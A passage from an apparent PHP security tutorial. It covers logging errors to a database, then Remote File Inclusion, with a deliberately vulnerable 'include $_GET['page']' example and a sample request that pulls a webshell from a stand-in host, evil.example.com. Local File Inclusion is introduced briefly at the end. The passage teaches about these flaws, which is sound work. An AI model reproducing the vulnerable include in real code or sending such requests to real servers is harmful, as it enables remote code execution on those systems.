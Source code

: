 ### Handling errors

A better option would be to store those error messages to a place they are more useful, like a database:

```php
set_error_handler(function($errno , $errstr, $errfile, $errline){
  try{
    $pdo = new PDO("mysql:host=hostname;dbname=databasename", 'dbuser', 'dbpwd', [
      PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION
    ]);

    if($stmt = $pdo->prepare("INSERT INTO `errors` (no,msg,file,line) VALUES (?,?,?,?)")){
      if(!$stmt->execute([$errno, $errstr, $errfile, $errline])){
        throw new Exception('Unable to execute query');
      }
    } else {
      throw new Exception('Unable to prepare query');
    }
  } catch (Exception $e){
    error_log('Exception: ' . $e->getMessage() . PHP_EOL . "$errfile:$errline:$errno | $errstr");
  }
});

```

This method will log the messages to the database and if that fails to a file instead of echoing it directly into the page. This way you can track what users are experiencing on your website and notify you immediately if something go's wrong.



## File Inclusion


### Remote File Inclusion

Remote File Inclusion (also known as RFI) is a type of vulnerability that allows an attacker to include a remote file.

This example injects a remotely hosted file containing a malicious code:

```php
<?php
include $_GET['page'];

```

> 
/vulnerable.php?page=[http://evil.example.com/webshell.txt](http://evil.example.com/webshell.txt)?


### Local File Inclusion

Local File Inclusion (also known as LFI) is the process of including files on a server through the web browser.
